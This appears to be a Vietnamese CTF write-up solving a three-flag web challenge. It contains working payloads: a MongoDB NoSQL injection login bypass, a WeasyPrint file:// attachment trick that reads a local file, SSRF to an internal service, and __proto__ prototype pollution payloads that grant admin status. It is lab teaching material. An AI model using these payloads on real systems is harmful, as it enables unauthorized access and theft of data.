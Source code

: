 ## Writeup

Giao diện trang web:

![](https://i.imgur.com/5TTVxSo.png)

### 1. Flag 1

Trang web có chức năng `/login`. Hiện tại trong ứng dụng chỉ có một user `admin` với password random.

![](https://i.imgur.com/oa9PpB1.png)

Tìm trong source code, ta thấy xuất hiện đoạn xử lí khi đăng nhập. Cụ thể server dùng MongoDB làm CSDL dạng NoSQL cho ứng dụng. Tuy nhiên khi trích xuất các tham số `username` và `password` từ request, server không thực hiện bất kì bước validate hay sanitize nào mà dùng chúng trực tiếp trong phần query thông qua hàm `find()` &rarr; NoSQL injection.

```python
def login_page():
    ...
    data = request.json
            if "username" in data.keys() and "password" in data.keys():
                login_cred = {"username": data["username"], "password": data["password"]}
                find_cred = dict()

                for i in tab.find(login_cred):
                    find_cred = i
                    break
    ...
```

Bắt request và đăng nhập bằng payload như sau:

```
{
    "username":"admin",
    "password":{
        "$ne": "1"
    }
}
```

Lúc này, câu query tương đương trong SQL sẽ dạng:

```
SELECT * FROM users WHERE username="admin" and password!="1"
```

Câu query trên luôn đúng &rarr; bypass login.

![](https://hackmd.io/_uploads/HkoDSAXN2.png)

Sau khi login, ta thấy ứng dụng có thêm chức năng converter.

![](https://i.imgur.com/a6CYxtB.png)

Chức năng `/converter` sử dụng thư viện `weasyprint` để convert HTML thành PDF file thông qua URL input. 

![](https://hackmd.io/_uploads/SkFFwCXEn.png)

Có thể thấy chức năng này dính lỗ hổng server-side XSS khi có thể dùng tag `<link>` để load local file từ server. Tạo file HTML `index.html` sau attach file `/tmp/flag.txt` (đọc Dockerfile).

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Flag hunter</title>
    <link rel=attachment href="file:///tmp/flag.txt">
</head>
<body>
    <h1>Looking for the flag 😵</h1>
</body>
</html>
```

Tại thư mục chứa file HTML trên, lắng nghe http request ở port 10101.

```
D:> python3 -m http.server 10101
```

Điền URL `http://<DOCKER_GATEWAY>:10101/`, ta generate được file PDF có attachment là file `/tmp/flag.txt`.

![](https://hackmd.io/_uploads/rkLO_RXVn.png)

![](https://hackmd.io/_uploads/SkD9dA743.png)

Download file PDF và sử dụng PDF editor để xem nội dung file `flag.txt`.

![](https://hackmd.io/_uploads/S198KRXEh.png)

**Flag 1: VCS{p00r_n0SQL_inj3cti0n}**

### 2. Flag 2

Ta thấy chức năng `/converter` chỉ đơn giản validate xem scheme từ URL input phải là `http` hoặc `https` &rarr; SSRF.

```python
@app.route("/converter", methods=["GET", "POST"])
def converter_page():
    ...
    else:
        data = request.json
        if "url" in data.keys():
            url = data["url"]
            if urlparse(url).scheme.lower() not in ["http", "https"]:
                result = {"status": 403, "msg": "You can only use http or https."}
            else:
                filename = hashlib.sha256(os.urandom(16)).hexdigest()
                start_time = str(datetime.datetime.now())
                HTML(url).write_pdf(f"static/output/{filename}.pdf")
                ...
    ...

```

Như vậy ta có thể SSRF service `logger` bằng URL `http://logger:8000`.

Tại service `logger`,  xuất hiện lỗ hổng Prototype Poisoning tại endpoint `/admin-logs` khi sử dụng `Object.assign()` và `JSON.parse()` user input qua param `logs`.

```javascript
app.get("/admin-logs", (req, res)=>{
    try {
        let new_logs = {
            "ip": null,
            "time": null
        };
        returnedTarget = Object.assign(new_logs, JSON.parse(req.query.logs));
        logs.push(new_logs);
        if(new_logs.from_admin == true){
            return res.json({result: true, msg: FLAG1});
        }
        return res.json({result: true});
    } catch {
        return res.json({result: false});
    }
});
```

Gửi request với URL: `http://logger:8000/admin-logs?logs={"__proto__":{"from_admin": 1}}`. Khi đó `new_logs` sẽ được gán thuộc tính `from_admin` có giá trị `true`.

![](https://hackmd.io/_uploads/SJadsyV4h.png)

Xem file PDF được generate và ta lấy được flag.

![](https://hackmd.io/_uploads/ryYqikVNh.png)

**Flag 2: VCS{pr0t0typ3_p0is0nin9_1s_e4sY!}**

### 3. Flag 3

Đối với flag 3, service `logger` có endpoint `/flag` trả về flag nếu là user `is_admin: true` của service này. 

```javascript
app.get("/flag", (req, res)=>{
    if(req.query.username != null && req.query.password != null) {
        let username = req.query.username;
        let password = req.query.password;
        if(creds[username] != null && creds[username].password == password) {
            if(creds[username].is_admin == true){
                return res.json({result: true, msg: FLAG2});
            } else {
                return res.json({result: true, msg: "nothing for you ^^"});
            }
        }
        return res.json({result: false});
    }
    return res.json({result: false});
});
```

Các credentials được lưu vào object `creds`, và hiện tại chỉ user `admin` nhưng password đã bị ẩn.

```
const creds = {
    "admin": {
        "password": process.env.ADMINPW,
        "is_admin": true
    }
};
```

Tuy nhiên, để ý tại endpoint `/logs` xảy ra lỗi prototype pollution với `JSON.parse()` khi sử dụng hàm merge đệ quy để lưu log mới.

```javascript
app.get("/logs", (req, res)=>{
    try {
        let new_logs = {
            "ip": null,
            "time": null
        };
        merge(new_logs, JSON.parse(req.query.logs));
        logs.push(new_logs);
        return res.json({result: true});
    } catch {
        return res.json({result: false});
    }
});
```

Lợi dụng điều đó, ta sẽ "tạo" thêm 1 credential mới có giá trị `username=hacker`, `password=pwned` và `is_admin=1` bằng URL sau: `http://logger:8000/logs?logs={"__proto__":{"hacker": {"password": 'pwned', 'is_admin": 1}}}`

![](https://hackmd.io/_uploads/BJtL3y4Vh.png)

Gửi request, lúc này ta đã pollute thành công và có thể sử dụng credential vừa tạo để lấy flag. Convert bằng URL `http://logger:8000/flag?username=hacker&password=pwned`.

![](https://hackmd.io/_uploads/rJCTleEN3.png)

Response trả về được convert qua PDF và ta lấy được flag.

![](https://hackmd.io/_uploads/rJw1WgE43.png)

**Flag 3: VCS{pr0t0typ3_p0lluT10n_1s_e4sY_t00!}**

